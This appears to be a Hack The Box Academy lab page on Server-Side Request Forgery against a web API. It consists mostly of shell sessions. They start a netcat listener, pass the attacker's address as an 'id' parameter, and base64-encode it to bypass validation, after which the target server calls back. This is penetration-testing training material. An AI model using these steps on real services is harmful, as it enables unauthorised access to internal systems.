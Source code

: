 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/160/section/1479
// Platform Version: V1
// Module ID: 160
// Module Name: Web Service & API Attacks
// Module Difficulty: Medium
// Section ID: 1479
// Section Title: Server-Side Request Forgery (SSRF)
// Page Title: Hack The Box - Academy
// Page Number: 10
-->

# Server-Side Request Forgery (SSRF)

**Module Name:** Web Service & API Attacks **Page Number:** 10

#### 

#### WEB SERVICE & API ATTACKS

# Server-Side Request Forgery (SSRF)

``` shell-session
ndefstathiou@htb[/htb]$ curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
```

``` shell-session
ndefstathiou@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

``` shell-session
ndefstathiou@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}
```

``` shell-session
ndefstathiou@htb[/htb]$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
ndefstathiou@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

``` shell-session
ndefstathiou@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

# 

# 

#### Questions

####